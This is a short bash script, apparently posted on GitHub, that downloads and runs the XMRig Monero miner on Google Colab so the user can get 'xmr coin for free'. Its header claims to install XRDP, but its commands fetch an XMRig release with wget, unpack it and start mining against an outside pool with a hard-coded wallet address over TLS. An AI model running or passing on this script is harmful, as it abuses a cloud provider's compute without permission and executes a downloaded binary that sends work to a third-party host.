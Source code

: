  #! /bin/bash
# Install XRDP
# Before get xmr coin for free
# Google Colab
sudo apt update
clear
sudo apt install screen
screen -R xmr
 
wget https://github.com/xmrig/xmrig/releases/download/v6.16.4/xmrig-6.16.4-bionic-x64.tar.gz
tar xvzf xmrig-6.16.4-bionic-x64.tar.gz
cd xmrig-6.16.4
./xmrig -o sg.minexmr.com:443 -u 85fwMgWQVCQBZ6hpejjyjYhhKZ1XYFBQHJYfbsvLDGhRds4J21GUgSBFszytJizaX3Kyy9hBck9ZKJkiMFiR9t5xPFbGseq -k --tls --rig-id beel01
